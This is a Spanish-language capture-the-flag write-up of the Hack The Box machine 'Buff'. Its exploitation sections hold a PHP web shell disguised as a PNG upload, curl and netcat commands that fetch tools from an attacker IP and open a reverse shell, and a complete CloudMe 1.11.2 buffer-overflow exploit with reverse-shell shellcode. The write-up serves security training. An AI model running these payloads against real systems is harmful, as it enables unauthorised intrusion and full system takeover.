




---

# 1. Ficha técnica


- **Nombre:** Buff 
- **Dificultad:** Fácil 
- **Plataforma:** Hack The Box 
- **Autor:** egotisticalSW
- **Técnicas usadas:** Abuso de subida de archivos arbitraria en **Gym Management System 1.0** (**Acceso Inicial**), Reenvío de Puertos mediante **Chisel**, Desbordamiento de Búfer basado en Pila en **CloudMe 1.11.2** (Escalada de Privilegios).

---

# 2. Reconocimiento

## 2.1. Comprobación de conectividad

Como primer paso en la fase de reconocimiento, se verificó la conectividad con el objetivo enviando cuatro paquetes ICMP mediante la herramienta `ping`.

**Comando ejecutado:**

```bash
ping -c 4 10.129.2.18
```

**Resultado obtenido:**

```bash
PING 10.129.2.18 (10.129.2.18) 56(84) bytes of data.
64 bytes from 10.129.2.18: icmp_seq=1 ttl=127 time=111 ms
64 bytes from 10.129.2.18: icmp_seq=2 ttl=127 time=114 ms
64 bytes from 10.129.2.18: icmp_seq=3 ttl=127 time=115 ms
64 bytes from 10.129.2.18: icmp_seq=4 ttl=127 time=117 ms

--- 10.129.2.18 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 111.457/114.378/117.184/2.045 ms
```

### Análisis de la información recopilada

A partir de la respuesta del comando, se determinaron los siguientes puntos clave:

- **Identificación del Sistema Operativo (TTL: 127):** El valor del _Time to Live_ (TTL) es de 127. Al estar sumamente próximo a 128 (el valor por defecto para entornos Microsoft), constituye un fuerte indicio de que la máquina objetivo opera bajo un sistema operativo **Windows**.
- **Estado de la red (0% packet loss):** No se registró pérdida de paquetes durante la transmisión, lo que confirma una conectividad estable y un canal de comunicación óptimo con el objetivo.

-----

## 2.2. Escaneo de puertos abiertos (TCP)

Se procedió a realizar un escaneo sigiloso (_SYN Scan_) sobre el rango completo de puertos TCP (65,535) utilizando la herramienta `nmap`, con el objetivo de identificar rápidamente los servicios expuestos.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.2.18
```

**Resultados obtenidos:**

```bash
Nmap scan report for 10.129.2.18
Host is up (0.14s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

### Análisis de los resultados

Tras analizar el rango completo de puertos TCP, se identificaron únicamente dos puertos abiertos: **7680** y **8080**.

Debido a que ninguno de los dos corresponde a configuraciones estándar predecibles en un análisis superficial, se concluye lo siguiente:

- El puerto **7680** suele estar asociado a servicios de optimización de entrega en Windows (WUDO), pero requiere confirmación.
- El puerto **8080** comúnmente aloja servicios web alternativos o servidores proxy.

**Próximo paso:** Es imperativo realizar una enumeración exhaustiva y dirigida sobre estos dos puertos específicos para determinar las versiones exactas de los servicios en ejecución y definir la superficie de ataque inicial.

---

# 3. Enumeración

### 3.1. Enumeración de servicios y versiones

Una vez identificados los puertos abiertos, se realizó una exploración exhaustiva sobre los mismos utilizando `nmap`. El objetivo de esta fase fue determinar las versiones exactas de los servicios en ejecución y ejecutar los _scripts_ de reconocimiento por defecto (`NSE`) para identificar posibles vectores de ataque.

> **Nota:** Se incluyó el parámetro `-Pn` para omitir el descubrimiento de _hosts_. Esto es una buena práctica crítica en entornos Windows, ya que el _firewall_ del sistema (Windows Defender) suele bloquear por defecto las peticiones ICMP, lo que podría provocar que `nmap` considere al objetivo como inactivo (_down_).

**Comando ejecutado:**

```bash
nmap -p7680,8080 -sCV -Pn -n 10.129.2.18
```

**Resultado obtenido:**

```plaintext
Nmap scan report for 10.129.2.18
Host is up (0.13s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
```

### Análisis de la información recopilada

El análisis detallado del escaneo reveló datos fundamentales para la fase de explotación:

- **Puerto 7680 (pando-pub?):** El escaneo de versiones no arrojó una respuesta concluyente sobre el servicio que corre en este puerto. Al estar marcado con un signo de interrogación, se mantiene en segundo plano para una revisión posterior si es necesario.
- **Puerto 8080 (HTTP):** Se confirmó la presencia de un servicio web corriendo bajo un servidor **Apache httpd 2.4.43** en su arquitectura para Windows (`Win64`).
    - **Pila tecnológica:** El servidor web utiliza **OpenSSL 1.1.1g** y **PHP 7.4.6**.
    - **Título del sitio:** El _script_ `http-title` extrajo el título de la página principal: `"mrb3n's Bro Hut"`.

**Conclusión:** El puerto **8080** se establece como el vector de entrada principal. El siguiente paso lógico consiste en interactuar con el servicio web a través del navegador o herramientas de interceptación para analizar su contenido y buscar vulnerabilidades conocidas en la aplicación o en las versiones del software detectado.

-----

## 3.2. Enumeración web y búsqueda de vulnerabilidades

Al realizar una inspección visual y navegación manual a través de la aplicación web, se examinó el recurso `/contact.php`. En dicha sección de contacto, se logró identificar la marca y versión del aplicativo en uso: **Gym Management System 1.0**.

> **Contexto de la aplicación:** _Gym Management System_ es una plataforma integral diseñada para la automatización y administración de operaciones diarias en centros deportivos (gestión de membresías, facturación, reserva de clases y control de acceso).



### Identificación de exploits con Searchsploit

Con el nombre y la versión exacta del software identificados, se procedió a consultar la base de datos local de _Exploit-DB_ mediante la herramienta `searchsploit` para buscar vulnerabilidades conocidas.

**Comando ejecutado:**

```bash
searchsploit 'Gym management System 1.0'
```

**Resultados obtenidos:**



### Análisis del vector de ataque

El resultado principal revela una vulnerabilidad crítica de **Ejecución Remota de Códigos (RCE)** No Autenticada (_Unauthenticated Remote Code Execution_).

- **Mecanismo del fallo:** El sistema tiene una validación incorrecta en la subida de archivos, lo que permite a un atacante omitir los filtros de carga de imágenes (restricciones de extensión o tipo MIME).
- **Impacto:** Un actor malicioso puede subir un archivo con extensión PHP que contenga código malicioso (_web shell_) y, al interactuar con él de forma directa en el servidor, lograr la ejecución de comandos arbitrarios en el sistema objetivo sin necesidad de poseer credenciales válidas.

----

# 4. Explotación

### 4.1. Acceso inicial (Intrusión)

Tras confirmar la existencia de la vulnerabilidad en _Gym Management System 1.0_, se procedió a analizar el código fuente del exploit obtenido a través de `searchsploit` (`48506.py`) para comprender su lógica de ejecución antes de su lanzamiento.

**Fragmento clave del exploit analizado:**

```plaintext
WEB_SHELL = SERVER_URL + 'upload/kamehameha.php'

s.get(SERVER_URL, verify=False)
PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
png     = {
            'file':
                (
                'kaio-ken.php.png',
                PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["telepathy"]); ?>',
                'image/png',
                {'Content-Disposition': 'form-data'}
                )
            }
fdata   = {'pupload': 'upload'}
```

### Análisis técnico del exploit

El script automatiza el proceso de intrusión explotando la falta de sanitización en el módulo de carga de archivos mediante las siguientes acciones:

- **Evasión de restricciones de tipo MIME (_Magic Bytes_):** El exploit define la variable `PNG_magicBytes` con la firma hexadecimal estándar de una imagen PNG (`\x89\x50\x4e\x47\x0d\x0a\x1a`). Al anteponer estos bytes al código malicioso, engaña al servidor simulando que el archivo binario es una imagen legítima si este solo valida la cabecera.
- **Inyección de la Web Shell:** Inmediatamente después de los _magic bytes_, se introduce una pequeña instrucción en PHP: `<?php echo shell_exec($_GET["telepathy"]); ?>`. Esta línea habilita la ejecución de comandos en el sistema operativo del servidor a través de parámetros URL.
- **Doble extensión y subida:** El archivo se envía inicialmente bajo el nombre `kaio-ken.php.png` con el tipo de contenido `image/png`. La vulnerabilidad en la aplicación permite que el archivo sea renombrado o interpretado por su extensión interna, alojándolo finalmente en la ruta accesible:

```bash
http://10.129.2.18:8080/upload/kamehameha.php
```

> **Nota:** El script de `searchsploit` está diseñado de forma interactiva; maneja de manera autónoma la carga del archivo y la posterior ejecución de comandos dentro de la misma terminal. Por lo tanto, no se requiere interactuar con el navegador web para detonar la _web shell_.

### Flujo de explotación

#### Paso 1: Réplica del exploit al directorio de trabajo

Para trabajar de forma organizada, se descargó una copia local del exploit a través de `searchsploit` y se renombró a `RCE.py`.

```bash
searchsploit -m php/webapps/48506.py
mv 48506.py RCE.py
```

#### Paso 2: Ejecución e interacción con la Web Shell

El script está desarrollado en **Python 2** y requiere la librería `requests`. Su sintaxis es directa: únicamente demanda como argumento la URL base donde se encuentra alojado el aplicativo web (en este escenario, la raíz del puerto 8080).

**Comando ejecutado:**

```bash
python2 RCE.py 'http://10.129.2.18:8080/'
```

#### Paso 3: Obtención de una Shell Reversa con Netcat (`nc.exe`)

Dadas las limitaciones de interactividad, la falta de persistencia y la inestabilidad inherentes a una _web shell_, el objetivo prioritario fue establecer una _reverse shell_ interactiva. Tras intentar una conexión directa mediante PowerShell sin éxito (posiblemente debido a restricciones de políticas de ejecución o del _firewall_ interno), se optó por transferir el binario legítimo de `nc.exe` (Netcat para Windows).

Aprovechando que el sistema objetivo disponía de la herramienta `curl`, se procedió con la siguiente metodología:

**1. Alojamiento del binario (Atacante):** Desde la máquina de ataque, se levantó un servidor web temporal con Python en el directorio donde se ubicaba el ejecutable `nc.exe`:

```bash
python3 -m http.server 8085
```

**2. Descarga del ejecutable (Objetivo):** A través de la _web shell_, se ejecutó `curl` para descargar el binario en un directorio con permisos de escritura en la máquina Windows:

```powershell
curl http://10.10.16.102:8085/nc.exe -o nc.exe
```

**3. Captura de la conexión (Atacante):** Antes de ejecutar el binario, se configuró un _listener_ en la máquina de ataque apuntando al puerto de escucha seleccionado:

```bash
nc -nlvp 9001
```

**. Ejecución del payload (Objetivo):** Finalmente, se ejecutó Netcat en la máquina objetivo para redirigir la consola de comandos (`powershell.exe`) de vuelta a la IP del atacante:

```powershell
.\nc.exe 10.10.16.102 9001 -e powershell.exe 
```

Al completarse este paso con éxito, se obtuvo una consola interactiva estable bajo el contexto del usuario `shaun` en la máquina Buff.



----

# 5. Post-Explotación

### 5.1. Enumeración local y análisis de privilegios

Una vez obtenido el acceso inicial al sistema como el usuario `shaun`, se procedió a realizar una fase de enumeración local utilizando comandos nativos del sistema operativo. El objetivo principal fue identificar configuraciones de seguridad, privilegios mal asignados o vectores potenciales para la escalada de privilegios.

#### Paso 1: Enumeración de privilegios del usuario actual

Se ejecutó el comando `whoami /priv` para listar los privilegios asignados al token de acceso del usuario actual.

**Comando ejecutado:**

```powershell
whoami /priv
```

**Resultado obtenido:**

```plaintext
Privilege Name                Description                          State   
==================================== ==========
SeShutdownPrivilege                   Disabled
SeChangeNotifyPrivilege               Enabled 
SeUndockPrivilege                     Disabled
SeIncreaseWorkingSetPrivilege         Disabled
SeTimeZonePrivilege                   Disabled
```

**Análisis de los resultados:** El usuario dispone únicamente del privilegio `SeChangeNotifyPrivilege` activo (_Enabled_). Este privilegio permite omitir la comprobación de recorrido (_Bypass traverse checking_), lo cual es el comportamiento estándar para casi cualquier usuario en entornos Windows y no representa, por sí mismo, un vector de escalada directo.

> **Nota:** Técnicamente, si este usuario formara parte del grupo de Administradores locales pero estuviera filtrado por el Control de Cuentas de Usuario (UAC), este contexto podría ser explotado mediante un _UAC Bypass_. Por ello, se volvió mandatorio comprobar la pertenencia a grupos del usuario.

#### Paso 2: Enumeración del grupo local de Administradores

Para validar si el usuario `shaun` pertenecía al grupo de administración (lo que haría viable un vector de _UAC Bypass_), se enumeraron los miembros del grupo local `administrators`.

**Comando ejecutado:**

```powershell
net localgroup administrators
```

**Resultados obtenidos:**

```plaintext
Alias name   administrators
Comment      Administrators have complete and unrestricted access to the computer/domain

Members

----------------------------------------------------------------------------------------
Administrator
The command completed successfully.

````

**Análisis de los resultados:** La salida del comando confirmó que el único miembro explícito del grupo es la cuenta nativa **Administrator**. Al comprobarse que el usuario actual (`shaun`) no forma parte de este grupo de alta confianza, **el vector de ataque mediante UAC Bypass queda completamente descartado**. Es necesario continuar la enumeración local enfocándose en servicios de terceros, software mal configurado o vulnerabilidades de kernel.

#### Paso 3: Enumeración de procesos y búsqueda de software de terceros

Con el fin de identificar vectores de elevación de privilegios basados en software mal configurado o desactualizado, se listaron los procesos activos en el sistema, ordenándolos por nombre.

**Comando ejecutado:**

```powershell
Get-Process | Sort-Object -Unique
```

**Resultados obtenidos:**

```plaintext
Handles  NPM(K)      WS(K)     Id  SI ProcessName                                                  
-------  ------      -----      --  -- -----------                                                  
   430      24        9976    6348   1 ApplicationFrameHost                     
   161      10        2040    6692   1 browser_broker                                               
   336      24       37284    5400   0 CloudMe 
```

**Análisis inicial:** Entre las tareas en ejecución, se detectó el proceso **CloudMe**, un servicio de almacenamiento en la nube que no pertenece a las características nativas de Windows. Al ejecutarse como un servicio con privilegios elevados, se priorizó su investigación.

#### Localización del binario en el disco

Para determinar la ruta del ejecutable, obtener su versión exacta y validar el contexto en el que opera, se realizó una búsqueda recursiva en todo el volumen `C:\` filtrando por el término de interés.

**Comando ejecutado:**

```powershell
Get-ChildItem -Path C:\ -Filter "*CloudMe*" -Recurse -ErrorAction SilentlyContinue | Select-Object FullName
```

**Resultados obtenidos:**

```plaintext
FullName                                 
--------                                 
C:\Users\shaun\Downloads\CloudMe_1112.exe
```

### Análisis de la vulnerabilidad hallada

El nombre del archivo ejecutable descubierto (`CloudMe_1112.exe`) indica de forma directa que se trata de **CloudMe versión 1.11.2**.

Esta compilación específica es ampliamente conocida en auditorías de seguridad debido a un fallo crítico de **Desbordamiento de Búfer basado en Pila (_Stack-Based Buffer Overflow_)**.

- **Mecanismo del fallo:** El servicio expone de forma interna un puerto TCP (usualmente el 8888). Al recibir una cadena de datos excesivamente larga y sin control de tamaño en la petición, el programa sobrescribe el puntero de instrucción (`EIP`), permitiendo desviar el flujo de ejecución del programa.
- **Impacto para la Escalada:** Debido a que este software suele ejecutarse con altos privilegios en el sistema (a menudo bajo el contexto de Administrador o _Local System_), explotar de manera exitosa el desbordamiento de búfer local nos otorgaría una consola con control total sobre el sistema operativo, consolidando la escalada de privilegios.

---

## 5.2. Reenvío de puertos (_Port Forwarding_) con Chisel

Tras verificar que el servicio vulnerable `CloudMe` se encuentra activo, se constató mediante el escaneo inicial que su puerto por defecto (**8888**) no es accesible de manera externa. Para poder interactuar con el servicio desde la máquina de ataque y detonar el exploit de _Buffer Overflow_, es imperativo establecer un túnel de red o reenvío de puertos (_Port Forwarding_).

Para este propósito se utilizó **Chisel**, una herramienta que encapsula un túnel TCP. Se descargaron los binarios compilados correspondientes para la arquitectura del atacante (Linux) y del objetivo (Windows).

### Procedimiento de transferencia y configuración del túnel

#### Paso 1: Transferencia del binario al objetivo

Desde la máquina de ataque se levantó un servidor web temporal con Python en el directorio del binario de Windows. Posteriormente, se utilizó PowerShell en la máquina víctima para descargar el archivo.

**En la máquina atacante:**

```bash
python3 -m http.server 80
```

**En la máquina objetivo (vía Reverse Shell):**

```powershell
powershell -Command "(New-Object Net.WebClient).DownloadFile('http://10.10.16.102/chisel.exe', 'chisel.exe')"
```

#### Paso 2: Inicialización del servidor (Atacante)

Se configuró Chisel en la máquina de ataque para operar en modo **servidor**, habilitando las conexiones entrantes en el puerto `1234` y permitiendo explícitamente el reenvío reverso (`--reverse`).

```bash
./chisel server -p 1234 --reverse
```

#### Paso 3: Conexión del cliente y apertura del puerto local (Objetivo)

Desde la máquina Buff, se ejecutó Chisel en modo **cliente** para conectarse al servidor del atacante. La directiva `R:8888:127.0.0.1:8888` le indica a Chisel que intercepte el puerto local `8888` de la víctima y lo exponga de forma remota (_Reverse Port Forwarding_) en el puerto `8888` de la máquina del atacante.

```powershell
.\chisel.exe client 10.10.16.102:1234 R:8888:127.0.0.1:8888
```

**Resultado:** Con el túnel establecido con éxito, cualquier paquete enviado al puerto `8888` de la máquina atacante (`127.0.0.1:8888` local) será redirigido de forma transparente a través del túnel hacia el servicio CloudMe dentro de la máquina Buff, permitiendo la explotación local a distancia.

---

## 5.3. Escalada de privilegios (Explotación de Buffer Overflow)

Una vez redirigido el puerto local `8888` del objetivo hacia nuestra máquina de ataque mediante Chisel, se procedió a adaptar el exploit público de _Exploit-DB_ (`windows/remote/48389.py`) para amoldarlo a nuestro escenario.

**Código final del exploit optimizado (`exploit.py`):**

```python
import socket
import sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.102 LPORT=4444 -b '\x00\x0A\x0D' -f python -v payload
payload =  b""
payload += b"\xdb\xc5\xbe\xc9\x8b\xa4\xc1\xd9\x74\x24\xf4"
payload += b"\x58\x31\xc9\xb1\x52\x83\xe8\xfc\x31\x70\x13"
payload += b"\x03\xb9\x98\x46\x34\xc5\x77\x04\xb7\x35\x88"
payload += b"\x69\x31\xd0\xb9\xa9\x25\x91\xea\x19\x2d\xf7"
payload += b"\x06\xd1\x63\xe3\x9d\x97\xab\x04\x15\x1d\x8a"
payload += b"\x2b\xa6\x0e\xee\x2a\x24\x4d\x23\x8c\x15\x9e"
payload += b"\x36\xcd\x52\xc3\xbb\x9f\x0b\x8f\x6e\x0f\x3f"
payload += b"\xc5\xb2\xa4\x73\xcb\xb2\x59\xc3\xea\x93\xcc"
payload += b"\x5f\xb5\x33\xef\x8c\xcd\x7d\xf7\xd1\xe8\x34"
payload += b"\x8c\x22\x86\xc6\x44\x7b\x67\x64\xa9\xb3\x9a"
payload += b"\x74\xee\x74\x45\x03\x06\x87\xf8\x14\xdd\xf5"
payload += b"\x26\x90\xc5\x5e\xac\x02\x21\x5e\x61\xd4\xa2"
payload += b"\x6c\xce\x92\xec\x70\xd1\x77\x87\x8d\x5a\x76"
payload += b"\x47\x04\x18\x5d\x43\x4c\xfa\xfc\xd2\x28\xad"
payload += b"\x01\x04\x93\x12\xa4\x4f\x3e\x46\xd5\x12\x57"
payload += b"\xab\xd4\xac\xa7\xa3\x6f\xdf\x95\x6c\xc4\x77"
payload += b"\x96\xe5\xc2\x80\xd9\xdf\xb3\x1e\x24\xe0\xc3"
payload += b"\x37\xe3\xb4\x93\x2f\xc2\xb4\x7f\xaf\xeb\x60"
payload += b"\x2f\xff\x43\xdb\x90\xaf\x23\x8b\x78\xa5\xab"
payload += b"\xf4\x99\xc6\x61\x9d\x30\x3d\xe2\xa8\xce\x2d"
payload += b"\x94\xc4\xcc\x4d\x49\x49\x58\xab\x03\x61\x0c"
payload += b"\x64\xbc\x18\x15\xfe\x5d\xe4\x83\x7b\x5d\x6e"
payload += b"\x20\x7c\x10\x87\x4d\x6e\xc5\x67\x18\xcc\x40"
payload += b"\x77\xb6\x78\x0e\xea\x5d\x78\x59\x17\xca\x2f"
payload += b"\x0e\xe9\x03\xa5\xa2\x50\xba\xdb\x3e\x04\x85"
payload += b"\x5f\xe5\xf5\x08\x5e\x68\x41\x2f\x70\xb4\x4a"
payload += b"\x6b\x24\x68\x1d\x25\x92\xce\xf7\x87\x4c\x99"
payload += b"\xa4\x41\x18\x5c\x87\x51\x5e\x61\xc2\x27\xbe"
payload += b"\xd0\xbb\x71\xc1\xdd\x2b\x76\xba\x03\xcc\x79"
payload += b"\x11\x80\xc1\xe2\x06\x9f\xb1\x4c\xad\xdd\xdf"
payload += b"\x6e\x18\x21\xe6\xec\xa8\xda\x1d\xec\xd9\xdf"
payload += b"\x5a\xaa\x32\x92\xf3\x5f\x34\x01\xf3\x75"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

### Modificaciones clave aplicadas al exploit original

Para transformar el script original (que funcionaba meramente como una Prueba de Concepto o _PoC_) en un exploit funcional, se implementaron los siguientes cambios:

1. **Inyección de un Shellcode funcional:** Se reemplazó el payload inofensivo original por una _reverse shell_ real dirigida a nuestra IP (`10.10.16.102`) en el puerto `4444`. El _payload_ se generó utilizando `msfvenom` excluyendo los _bad chars_ habituales (`\x00\x0A\x0D`) para evitar que la cadena se rompa prematuramente en la memoria:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.102 LPORT=4444 -b '\x00\x0A\x0D' -f python -v payload
```

1. **Corrección de dependencias (`import sys`):** El script original invocaba la estructura `sys.exc_value` dentro del bloque de manejo de excepciones (`except`), pero omitía la importación de dicha librería en la cabecera. Se añadió `import sys` para prevenir fallos en la ejecución.

### Anatomía del ataque y estructura del Buffer

El exploit aprovecha una vulnerabilidad de desbordamiento enviando un bloque exacto de **1,500 bytes** al puerto `8888`. La estructura del búfer malicioso inyectado (`buf`) se distribuye de la siguiente manera:

```bash
buf = padding1 (1052 bytes) + EIP (4 bytes) + NOPS (30 bytes) + Payload + overrun
```

- **`padding1` (1052 bytes):** Cadena de relleno necesaria para llenar el espacio asignado en la pila y alcanzar el límite exacto del registro **EIP** (_Extended Instruction Pointer_).
- **`EIP` (4 bytes):** Contiene la dirección de memoria `0x68A842B5` escrita en formato _Little Endian_ (`\xB5\x42\xA8\x68`). Al apuntar a una instrucción legítima `PUSH ESP; RET`, obliga al procesador a desviar el flujo y saltar directamente hacia la sección de la pila donde reside nuestro código.
- **`NOPS` (30 bytes):** Un bloque de instrucciones _No Operation_ (`\x90`). Actúa como un colchón de seguridad (_NOP Sled_). Si el salto del procesador no cae con precisión milimétrica en el inicio del shellcode, este "deslizará" a través de los NOPs hasta colisionar y ejecutar limpiamente el payload sin corromperse.
- **`payload`:** El código ejecutable malicioso que levanta la consola reversa.
- **`overrun`:** Relleno final de caracteres `"C"` para completar matemáticamente los 1,500 bytes que el servicio de CloudMe requiere para colapsar y activar la rutina de desbordamiento.

**Ejecución:** Al poner un _listener_ en el puerto `4444` (`nc -nlvp 4444`) y ejecutar este script, se recibe de vuelta una consola interactiva con los máximos privilegios del sistema, concluyendo exitosamente la intrusión en la máquina Buff.

### Flujo de ejecución del exploit

#### Paso 1: Preparación del puerto de escucha (_Listener_)

Antes de lanzar el ataque, se configuró un _listener_ mediante Netcat en la máquina de ataque para capturar la conexión entrante de la _reverse shell_.

```bash
nc -nlvp 4444
```

#### Paso 2: Lanzamiento del exploit

Con el túnel de Chisel activo y el puerto `8888` local correctamente mapeado, se procedió a ejecutar el script modificado en Python.

```bash
python CloudMe.py
```

#### Paso 3: Consolidación y acceso como Administrador

Inmediatamente después de enviar el búfer malicioso, el servicio `CloudMe` colapsó en memoria, desviando el flujo de ejecución hacia nuestro _shellcode_. En la ventana del _listener_, se recibió de manera exitosa la conexión reversa, otorgando una consola de comandos interactiva.

Debido a que el servicio vulnerado corría bajo la Sesión 0 del sistema, la sesión se estableció directamente bajo los máximos privilegios:



**Conclusión:** La máquina **Buff** ha sido totalmente comprometida, logrando la escalada de privilegios a `Administrador` mediante la explotación exitosa de un desbordamiento de búfer local sobre un servicio de terceros.

----


